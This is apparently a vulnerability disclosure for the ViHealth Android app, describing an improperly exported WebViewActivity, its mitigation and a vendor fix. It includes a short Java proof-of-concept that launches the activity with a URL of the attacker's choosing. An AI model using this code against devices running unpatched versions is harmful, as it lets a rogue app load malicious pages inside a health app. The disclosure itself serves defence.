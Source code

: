 

Vendor of Product: Viatom Health                                                                                                                                                                                                                                                                                                                                                                      
Vulnerability Type: CWE-926: Improper Export of Android Application Components

Affected Product:  ViHealth Android App V. 2.74.58* & earlier

Affected Component: Exported Activity "com.viatom.baselib.mvvm.web.WebViewActivity"

Attack Type: Adjacent

To exploit the vulnerability, the attacker needs to have a victim install a 3rd party Android app on their device

The Android application exports a component for use by other applications but does not properly restrict which applications can launch the component or access the data it contains.

See https://cwe.mitre.org/data/definitions/926.html

This issue can be mitigated by changing exported status of the activity reflected on the AndroidManifest.xml entry:

![image](https://github.com/actuator/cve/assets/78701239/6d9c2530-0122-4ea6-871a-72fd6c1ad08b)




An attacker could craft a 3rd party app using the following code to load the URL of their choice to facilitate malicious actions:


![com viatom baselib mvvm web WebViewActivity](https://github.com/actuator/cve/assets/78701239/2dafcbb9-e528-4103-881e-173655970e37)


********************************************************************************************************************************

Intent launch = new Intent();
launch.setClassName("com.viatom.vihealth", "com.viatom.baselib.mvvm.web.WebViewActivity");

// Put the URL to be loaded in the WebViewActivity
launch.putExtra("web_url", "https://www.fast.com");

// Start the activity
startActivity(launch);

********************************************************************************************************************************




**This issue has been fixed today (6/19/23) with version (2.74.62)-shortly after I reported it to the vendor on 6/10/23.


![image](https://github.com/actuator/cve/assets/78701239/00fe68ca-6030-4eac-a84b-188c0036b5d8)


![image](https://github.com/actuator/cve/assets/78701239/4c2b98e8-2407-4325-bc96-8de0dae71443)


Discoverer: Edward Warren
